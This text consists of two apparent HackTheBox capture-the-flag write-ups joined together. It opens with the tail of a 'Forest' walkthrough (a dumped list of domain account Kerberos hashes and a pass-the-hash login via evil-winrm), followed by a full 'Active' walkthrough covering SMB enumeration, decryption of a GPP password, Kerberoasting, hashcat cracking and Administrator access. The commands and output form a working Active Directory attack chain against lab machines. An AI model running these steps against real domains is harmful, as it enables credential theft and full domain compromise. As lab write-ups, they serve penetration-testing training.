htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
mustafa:aes256-cts-hmac-sha1-96:69b0f2f715eea4e1b237265d18cd473f2b9ea1b41ec7a190e8269c20a8db94a2
mustafa:aes128-cts-hmac-sha1-96:fb99dadef85e6d3a5a29fbd550bf68aa
mustafa:des-cbc-md5:68158f986d75ba67
tayeb:aes256-cts-hmac-sha1-96:237e09a7b252c9e2f5d76f0842ee96a55f00306611b3b34d263f5e686b5a2fec
tayeb:aes128-cts-hmac-sha1-96:8a24700496a9804a72a93f56f0769fdb
tayeb:des-cbc-md5:f179076d0810f27c
FOREST$:aes256-cts-hmac-sha1-96:2bfd474d33167a65d1f6f83c8dd1de8eba94ced426ad70f7f36010dd70cef472
FOREST$:aes128-cts-hmac-sha1-96:5e920bff07b7f5e5700393e01d42335c
FOREST$:des-cbc-md5:160de02a086b79e3
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up...
```

The first hash is for the Administrator user, so let's pass-the-hash to log in with evil-winrm:

> **evil-winrm -i 10.129.68.46 -u administrator -H "32693b11e6aa90eb43d32c72a07ceea6"**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3   ~/machines/forest
└─👀 ➜ evil-winrm -i 10.129.68.46 -u administrator -H "32693b11e6aa90eb43d32c72a07ceea6"

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        10/9/2026  12:58 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

Root obtained. Solved – happy hacking!

------

**Find me online**:

- TryHackMe: [t4t4r1s](https://tryhackme.com/p/t4t4r1s)
- HackTheBox: [t4t4r1s](https://app.hackthebox.com/users/2203575)
- LinkedIn: [Mustafa Eltayeb](https://www.linkedin.com/in/t4t4r1s)
- X: [@mustafa_altayeb](https://x.com/t4t4r1s)

------

<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style="border:none;"></iframe>---
layout: post
title: Active
date: 2026-09-17 00:00:00 +0000
categories: [Writeups, HackTheBox, HTB-Easy]
tags:
  - HTB
  - HackTheBox
  - ActiveDirectory
  - GPP
  - Kerberoasting
subtitle: HackTheBox Writeup - Active
description: Walkthrough of the Active machine – enumerating anonymous SMB shares to find a Group Policy Preferences (GPP) password in Groups.xml, decrypting it with gpp-decrypt for a domain user foothold, then escalating to Domain Admin by Kerberoasting a service ticket for the Administrator account and cracking it with hashcat.
image: https://cdn.services-k8s.prod.aws.htb.systems/content/machines/avatar/9e4d90d5-dc8f-4276-afba-e99d3da016d3.png
optimized_image: https://cdn.services-k8s.prod.aws.htb.systems/content/machines/avatar/9e4d90d5-dc8f-4276-afba-e99d3da016d3.png
paginate: true

---

# Active - HackTheBox Writeup

[Active](https://app.hackthebox.com/machines/Active) is an Easy Windows machine on HackTheBox. It centers on a Domain Controller where an anonymously-readable SYSVOL replication share leaks a Group Policy Preferences (GPP) password, and a Kerberoasting attack against the built-in Administrator account hands over full domain compromise.

## Box Info

- **Name:** Active
- **Difficulty:** Easy
- **OS:** Windows
- **Release Date:** 28 Jul 2018
- **Retire Date:**
- **Creator:** eks & mrb3n

------



## Recon

Started with an nmap scan to see open ports and available services.

### nmap

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/Active
└─👀 ➜ nmap -p- --min-rate 10000 -oA nmap_active 10.129.57.231
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-17 22:37 EEST
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 39.14% done; ETC: 22:37 (0:00:14 remaining)
Nmap scan report for 10.129.57.231
Host is up (6.3s latency).
Not shown: 43703 filtered tcp ports (no-response), 21814 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
47001/tcp open  winrm
49152/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49158/tcp open  unknown
49164/tcp open  unknown
49173/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 76.97 seconds
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/Active
└─👀 ➜ nmap -p53,88,135,139,389,445,593,636,3268,5722,9389,47001 -sCV -oN access_deep 10.129.57.231
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-17 22:39 EEST
Nmap scan report for 10.129.57.231
Host is up (0.20s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-17 19:40:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap
5722/tcp  open  msdfsr?
9389/tcp  open  adws?
47001/tcp open  winrm?
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2026-09-17T19:40:28
|_  start_date: 2026-09-17T18:24:31
|_clock-skew: -2s
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.24 seconds
```

A full Active Directory Domain Controller footprint: DNS, Kerberos, LDAP, SMB, global catalog, and WinRM — domain is `active.htb`.

------

## SMB Enumeration 139/445

This is a Windows host, so I enumerated SMB to check for available shares, using `smbmap`:

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/Active
└─👀 ➜ sudo smbmap -H 10.129.57.231

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 1 authenticated session(s)

[+] IP: 10.129.57.231:445       Name: 10.129.57.231             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share
        Replication                                             READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share
        Users                                                   NO ACCESS
[*] Closed 1 connections
```

One share, `Replication`, is readable.

------

## Initial Access — GPP Password (Groups.xml)

I accessed the `Replication` share with `smbclient` and browsed its contents, logging in with anonymous credentials:

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/Active
└─👀 ➜ smbclient //10.129.57.231/Replication
Password for [WORKGROUP\T4T4R1S]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 21 12:37:44 2018
  ..                                  D        0  Sat Jul 21 12:37:44 2018
  active.htb                          D        0  Sat Jul 21 12:37:44 2018
```

Digging through the folders, I found a `Groups.xml` file:

```bash
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> dir
  .                                   D        0  Sat Jul 21 12:37:44 2018
  ..                                  D        0  Sat Jul 21 12:37:44 2018
  Groups.xml                          A      533  Wed Jul 18 22:46:06 2018

                5217023 blocks of size 4096. 279163 blocks available
```

Downloaded it with `get`:

```bash
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> get Groups.xml
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as Groups.xml (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

Opening the file locally revealed a **GPP password**:

> GPP (Group Policy Preferences) is a Windows feature that can store usernames and passwords in Group Policy files. The password is stored as a `cpassword` value, which can be decrypted in old, vulnerable configurations.

The file contained a `cpassword` tied to the user `active.htb\SVC_TGS`:

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/Active
└─👀 ➜ cat Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

There's a tool called `gpp-decrypt` that decrypts these passwords back to plaintext:

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/Active
└─👀 ➜ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
    GPPstillStandingStrong2k18
```

With `active.htb\SVC_TGS` : `GPPstillStandingStrong2k18` in hand, I re-enumerated shares with the new credentials:

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/Active
└─👀 ➜ smbmap -H 10.129.57.231 -d active.htb -u SVC_TGS -p 'GPPstillStandingStrong2k18'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 1 authenticated session(s)

[+] IP: 10.129.57.231:445       Name: 10.129.57.231             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share
        Replication                                             READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share
        Users                                                   READ ONLY
[*] Closed 1 connections

┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/Active
└─👀 ➜
```

Now with access to three shares, I connected to the `Users` share:

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/Active
└─👀 ➜ smbclient  //10.129.57.231/Users -U SVC_TGS
Password for [WORKGROUP\SVC_TGS]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 16:39:20 2018
  ..                                 DR        0  Sat Jul 21 16:39:20 2018
  Administrator                       D        0  Mon Jul 16 12:14:21 2018
  All Users                       DHSrn        0  Tue Jul 14 08:06:44 2009
  Default                           DHR        0  Tue Jul 14 09:38:21 2009
  Default User                    DHSrn        0  Tue Jul 14 08:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 07:57:55 2009
  Public                             DR        0  Tue Jul 14 07:57:55 2009
  SVC_TGS     
```

Found the user flag:

```bash
smb: \SVC_TGS\Desktop\> dir
  .                                   D        0  Sat Jul 21 17:14:42 2018
  ..                                  D        0  Sat Jul 21 17:14:42 2018
  user.txt                           AR       34  Thu Sep 17 21:25:50 2026
cd
                5217023 blocks of size 4096. 278907 blocks available
smb: \SVC_TGS\Desktop\> get user.txt
getting file \SVC_TGS\Desktop\user.txt of size 34 as user.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \SVC_TGS\Desktop\> exit

┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/Active
└─👀 ➜ cat user.txt
64674b8689000000000000000
```

------

## Kerberoasting

> **What is this?** Kerberoasting exploits a simple design rule in Kerberos: any authenticated user can request a service ticket (TGS) for any account that has a Service Principal Name (SPN) registered. That ticket is encrypted with the service account's password hash — and the KDC hands it over without questioning why you want it. You take the ticket offline, crack it with Hashcat, and recover the plaintext password. Service accounts often have weak, unrotated passwords and frequently hold privileged group memberships. One cracked service account can mean full domain compromise — and the attack is silent, effectively unlimited, and leaves minimal logs.

I used Impacket's `GetUserSPNs` to request a TGS as the `SVC_TGS` user:

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/Active
└─👀 ➜ impacket-GetUserSPNs -request -dc-ip 10.129.57.231  'active.htb/SVC_TGS' > tgs.txt
Password:

┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/Active
└─👀 ➜ cat tgs.txt
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40.351723  2026-09-17 21:25:55.211796


[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$e87fa938e6585a97c8248439b2771785$c82d9bea2d3d1a5a166a736c23dfb703235474df559c21f0c2fd75280b343acf45db9199ced5a76bcb4a1fc623d7e7496cb8d33ffb602dd0866b4e8cf4090165884a77a112a1f62ec428a71f32acbd7824a51b5bc2255cadf681568f113bc03058155edece9a70ada222b5e86bed33e2ed33d73b9b19aa68a5b2ef8dbab551ebfdfdf2c02630a1bb32005c6f9c3494212ccc6f7a91830a076675ba04ad796cd7372c43778e8ce5c012e8bb4561f9a4dd141fff53f34a9cb51b4b3f921e5cd595d26b2be5f0358dc857104dfb49e59fe619c46378df53d7e407a453d6039ca268160d9b6fad4085e96215e04d3945e062bd6d8e063e749020df8f730e650db747264f06dcb642cf1605be283852ae48e0a558c0340a39945b6f6c8f05d2c4c64843435ab82bd66e230722b1de308ae69523feda557c19911c13a7ab0e66a3953649fa088fdb64cb0e163c31fce14ba1ad41f4dcbf29017666269abffbb84fcc70df4c301621e692408c52080055d015a77fd035411ae14c7328ee6b71c78e0b5fe94256220f737cd920a028927a89e71845c29710c4ae52cb361a37c5292a18acdb814e5cb1174d3f725b18b8a90130f224931155c670bcd945f3de3447b51845ebffc0bba343dc90dc1ce47db28df07dd3864b70a2da0bfad32ef1030a8d77213eb8e78e30a823cb10e268e92414532c26a691845b8c66d60e38590d92054e38ff125448af3b5383f96e28b65504c60d179fd4d9672917680065c4a6dc4e8264659c1b4868399753a40812957cd72b7305e6c95aee1efd86448eb876519a1bea2dde7c6d37293c0d7a504a1cb3d5397b550fdc51e654347750c106b5b5bfe1bbe5d0153e596b1628e4b1769c0e62cfb006d8f34a04cb8c6ef5be7282a175ceeb48121d4bf383d6d8948c8940607fbd9b522b5e660550a60f751b03ed982b5f12b035de46133e16fb82c3c73a11ae3a454bb34e9578b7069ca0344422770813a4c0d04fc4249a58ba3d3a4f6d70d4314cc04e75fcf32acea0baf781bfcd461beaf33def31d52af94bb062429b4bd666563b5640433282255ebacaf202dfd8d9ed95e3d08c95ae482fb6d5187e116ba624ae1f03c45474cb9bbfa117955572c3ab6241a803a10086a1cfe7f5b4cec84c5562c64b789e51a5e9b4680350e6dfa41a1d137fbf7d9d0563cd2150f6d7e9292e17f7d0a74f0569178d1fab3c78e8441b215fedda1354b16ca708573779be99d61285c2a40fc38e114e87
```

Copied the hash to my Mac to crack it with Hashcat's GPU acceleration:

```bash
╭─   ~/pentest ······································································································  00:35:17
╰─❯ hashcat -m 13100  hash.txt ~/Pentest/Wordlists/rockyou.txt
hashcat (v7.1.2) starting

METAL API (Metal 373.7)
=======================
* Device #01: Apple M4, skipped

OpenCL API (OpenCL 1.2 (Jul 31 2026 20:36:30)) - Platform #1 [Apple]
====================================================================
* Device #02: Apple M4, GPU, 6062/12124 MB (1136 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

INFO: All hashes found as potfile and/or empty entries! Use --show to display them.
      For more information, see https://hashcat.net/faq/potfile

Started: Fri Sep 18 00:35:19 2026
Stopped: Fri Sep 18 00:35:20 2026

╭─   ~/pentest ······································································································  00:35:20
╰─❯ hashcat -m 13100  hash.txt --show
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$bf418dedee3ca2e824829caa0c3be675$b13a434c082ecf90c54a422c27b3555f2668091dd4d02cfa9f8fb9741f0632e147ae9b8d149af5c898a19297c02b5d73d6120837eeae99c1dbaa736b1aeb562d9673b3297337ab3a9408dd79f4d81b91b1b02f18a8bf94027b0321449a2b83fa3552970ea9bd4ff6a38d3638a6dce6c8b776fc0dfd1fd6b6fe8119ed5b4305aa482d8107eb07f5ea9004209dfd05daf4cf2cdaaa6d0ecb7058cd581e1751843714d356110c53d007ba17eac19cdbd2d50517f1f883d7f506d21cd338e653af1c42324eb177c67975f51b169cd963946d066bbad1d58c3eb6dd6c8254822379ad793e3d1c1fb80bb8fc665696e6f9fba691512b46a6b4653a2db4a78100d83203d50054f4c719e544b3615546b3c373fa7d1e5111f0ed5ba879560347c9573521de5f6548bfe4bbb69cac26f030efa87e5438a5bc81de123e1705b0eb607d28e38b192012132afecff59136949a442d795bd829979781a82a9ea93524b7471e3a049f9407872aa2ae9f0cdf50b076cea8811f0c56357b8b9a09b239b608a3b2d685e2e11d765d7e8e86f03c59b90f7f36b54ef4dfb6f0d0e7832391c2524031bbb2cfd09959543b2df3cd515009c75a6112d57f69dd3b6d3710ad4aaf905c1752856bb025a3688ad72ec3650e044176b7fe644cca564773e7accf2496c1b81b6104333ceddb9bcace227ad753437bf5510e1b16a63fdc78a443762a224f9505bf496c5c11e5188df63bef6ba5e9e3920bd3f46185272f9e245df0052aa808cb001d348e32c9269fae38bc597d3403b0560fc9477740ff0c659d9dbbfb295bbd2af90549a8084b93b61675fc0995fa0a315b78ed368bed8770c69978d84963edc728972390be9f0f7b52bbb45a5ff9f93f2ad6731d6f1fe321a79dd25816bd125aaa2947d61da1febeeb07d8e1c5f333ce8855f70267f0c7e6376b3fc7efba8e4e10209c6ac7c2610d8650e21655ae4eabf30ef85eccc042ff0018233ec9eb51a90c03ab26e48f4cfcd7cd421cf006a6d3c446c6b00fb55d05999b3d6cb0e6c3a588ae7065227edb5ab002dd487671eb578b217069d534c81cddd5f45eadabbdfed34f65e512b72350a7f3a2bc9b7cd96ca0e1723d9512f17f99cba5fce17a626c9193c6760a3cbc005b380d841ec1a685f9c84b23f9fd19b66d89762672ad00ba425ef9e5fe0e3b49b81bb18f8053692884149da05f078f6e5850b1a43464b54e5ca4f9e2da554bd48fb158a8736a8e8f787deab044a30c9bf7fb:Ticketmaster1968
```

Cracked: the Administrator password is `Ticketmaster1968`.

------

## Privilege Escalation

Logged into SMB with the recovered Administrator credentials:

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/Active
└─👀 ➜ smbclient  //10.129.57.231/Users -U administrator
Password for [WORKGROUP\administrator]:
Try "help" to get a list of possible commands.
smb: \> cd A
Administrator\  All Users\
smb: \> cd Administrator\
smb: \Administrator\> dir
  .                                   D        0  Mon Jul 16 12:14:21 2018
  ..                                  D        0  Mon Jul 16 12:14:21 2018
  AppData                           DHn        0  Thu Sep 17 21:25:44 2026
  Application Data                DHSrn        0  Mon Jul 16 12:14:15 2018
  Contacts                           DR        0  Mon Jul 30 15:50:10 2018
  Cookies                         DHSrn        0  Mon Jul 16 12:14:15 2018
  Desktop                            DR        0  Thu Jan 21 18:49:47 2021
  Documents                          DR        0  Mon Jul 30 15:50:10 2018
  Downloads                          DR        0  Thu Jan 21 18:52:32 2021
  Favorites                          DR        0  Mon Jul 30 15:50:10 2018
  Links                              DR        0  Mon Jul 30 15:50:10 2018
  Local Settings                  DHSrn        0  Mon Jul 16 12:14:15 2018
  Music                              DR        0  Mon Jul 30 15:50:10 2018
  My Documents                    DHSrn        0  Mon Jul 16 12:14:15 2018
  NetHood                         DHSrn        0  Mon Jul 16 12:14:15 2018
  NTUSER.DAT                       AHSn   524288  Thu Sep 17 21:25:55 2026
  ntuser.dat.LOG1                   AHS   262144  Thu Sep 17 22:12:54 2026
  ntuser.dat.LOG2                   AHS        0  Mon Jul 16 12:14:09 2018
  NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf    AHS    65536  Mon Jul 16 12:14:15 2018
  NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms    AHS   524288  Mon Jul 16 12:14:15 2018
  NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms    AHS   524288  Mon Jul 16 12:14:15 2018
  ntuser.ini                         HS       20  Mon Jul 16 12:14:15 2018
  Pictures                           DR        0  Mon Jul 30 15:50:10 2018
  PrintHood                       DHSrn        0  Mon Jul 16 12:14:15 2018
  Recent                          DHSrn        0  Mon Jul 16 12:14:15 2018
  Saved Games                        DR        0  Mon Jul 30 15:50:10 2018
  Searches                           DR        0  Mon Jul 30 15:50:10 2018
  SendTo                          DHSrn        0  Mon Jul 16 12:14:15 2018
  Start Menu                      DHSrn        0  Mon Jul 16 12:14:15 2018
  Templates                       DHSrn        0  Mon Jul 16 12:14:15 2018
  Videos                             DR        0  Mon Jul 30 15:50:10 2018

                5217023 blocks of size 4096. 278891 blocks available
smb: \Administrator\> cd Desktop
smb: \Administrator\Desktop\> dir
  .                                  DR        0  Thu Jan 21 18:49:47 2021
  ..                                 DR        0  Thu Jan 21 18:49:47 2021
  desktop.ini                       AHS      282  Mon Jul 30 15:50:10 2018
  root.txt                           AR       34  Thu Sep 17 21:25:50 2026
```

Got `root.txt`:

```bash
smb: \Administrator\Desktop\> get root.txt
getting file \Administrator\Desktop\root.txt of size 34 as root.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \Administrator\Desktop\> exit

┌──🦊 T4T4R1S  IP ➜  10.211.55.3 10.10.17.213   ~/machines/Active
└─👀 ➜ cat root.txt
e57b203c73900000000000000000
```

Domain Admin / SYSTEM obtained. Solved – happy hacking!

------


------

**Find me online**:

• TryHackMe: [t4t4r1s](https://tryhackme.com/p/t4t4r1s)

• HackTheBox: [t4t4r1s](https://app.hackthebox.com/users/2203575)

• LinkedIn: [Mustafa Eltayeb](https://www.linkedin.com/in/t4t4r1s)

• X: [@mustafa_altayeb](https://x.com/t4t4r1s)

------

<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style="border:none;"></iframe>